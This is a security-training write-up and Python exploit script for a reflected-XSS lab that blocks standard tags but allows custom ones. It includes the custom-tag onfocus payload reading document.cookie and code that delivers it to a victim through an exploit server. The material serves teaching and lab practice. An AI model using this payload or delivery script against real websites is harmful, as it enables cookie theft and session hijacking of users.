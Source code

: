```yaml
---
title: 'XSS Lab 15'
description: 'Exploiting reflected XSS when all HTML tags are blocked except custom ones'
---
```



## Reflected XSS into HTML context with all tags blocked except custom ones

<div style="text-align: justify;">
  This lab demonstrates an XSS scenario where all standard HTML tags are blocked, but custom (non-standard) tags are allowed.  
  By injecting a custom tag with an `onfocus` event handler, we can trigger JavaScript execution.  
  The exploit leverages the browser focusing on the element via a hash fragment to execute the payload automatically.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- Normal HTML tags (`<script>`, `<img>`, etc.) are blocked by server-side filtering.  
- Custom tags (like `<xss>`) are still allowed and can hold event handlers.  
- We inject:  
    ```html
    <xss id=x onfocus=alert(document.cookie) tabindex=1>
    ```
- A hash (`#x`) in the URL ensures the browser auto-focuses the element, triggering the alert.
- The script stores and delivers the payload via the exploit server.  

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import sys, time, requests, urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}

def check_burp():
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Start Burp (127.0.0.1:8080) and rerun"); sys.exit(1)

def deliver(exploit_server, lab_url):
    head = "HTTP/1.1 200 OK\r\nContent-Type: text/html; charset=utf-8"
    payload = "<script>location = '{}/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script>".format(lab_url)
    data = {"responseBody": payload, "responseHead": head, "formAction":"DELIVER_TO_VICTIM",
            "urlIsHttps":"on","responseFile":"/exploit"}
    try:
        r = requests.post(exploit_server, data=data, verify=False, proxies=proxies, timeout=10)
        r.raise_for_status()
        return True
    except requests.exceptions.RequestException:
        return False

def check_solved(lab_url, tries=5, wait=2):
    s = requests.Session()
    for _ in range(tries):
        try:
            r = s.get(lab_url, verify=False, proxies=proxies, timeout=10)
            if "Congratulations" in r.text or "Solved" in r.text:
                return True
        except requests.exceptions.RequestException:
            pass
        time.sleep(wait)
    return False

if __name__ == "__main__":
    if not (2 <= len(sys.argv) <= 3):
        print(f"Usage: python {sys.argv[0]} <lab-url> [exploit-server]"); sys.exit(1)

    lab = sys.argv[1].rstrip('/')
    if len(sys.argv) == 3:
        exploit = sys.argv[2].rstrip('/')
    else:
        print("Exploit server not provided; exiting.")
        sys.exit(1)

    check_burp()
    print(f"[*] Lab URL: {lab}")
    print(f"[*] Exploit Server: {exploit}/")

    print("[*] Delivering the exploit to the victim.. ", end="", flush=True)
    if deliver(exploit, lab):
        print("[+] OK")
    else:
        print("[-] Delivery failed"); sys.exit(1)

    print("[*] Waiting a moment for the exploit to be delivered and triggered...")
    if check_solved(lab, tries=6, wait=2):
        print("[+] Lab solved 🎉")
    else:
        print("[-] Lab not confirmed as solved")
```